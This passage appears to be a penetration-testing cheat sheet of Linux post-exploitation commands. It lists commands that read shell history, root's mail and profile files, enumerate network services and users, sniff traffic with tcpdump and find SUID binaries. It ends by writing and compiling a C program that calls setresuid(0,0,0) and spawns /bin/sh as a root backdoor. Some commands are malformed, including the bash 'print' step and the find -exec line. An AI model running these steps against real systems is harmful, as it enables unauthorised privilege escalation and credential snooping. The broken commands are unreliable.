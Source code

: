 ```bash
cat ~/.php_history
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
```

Anything else in the environmental variables? symlinks?
```bash
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bash_logout
env
set
find / -type l -ls
```
Anything going on with the network? hidden services? logged in users?
```bash
/sbin/ifconfig -a 
cat /etc/network/interfaces 
cat /etc/sysconfig/network
lsof -i 
lsof -i :80 
grep 80 /etc/services 
netstat -antup 
netstat -antpx 
netstat -tulpn 
chkconfig --list 
chkconfig --list | grep 3:on 
last 
w
arp -a 
```

Can you sniff traffic?
```bash
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```



### SUID Files, Root Services, and Other Files

Check for things running as root
```bash
ps aux | grep root
ps -ef | grep root
```
Check the version of something that's installed
```bash
dpkg -l | grep -i PAM
```
Any file-systems mounted or unmounted?
```bash
mount
df -h
cat /etc/fstab
```
Then do suid/guid and other interesting files.
```bash
find / -perm -4000 -exec ls -al -print 2>/dev/null {} \;
find / -uid 0 -perm -4000 2>/dev/null
```
To create our own SUID binary
```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
```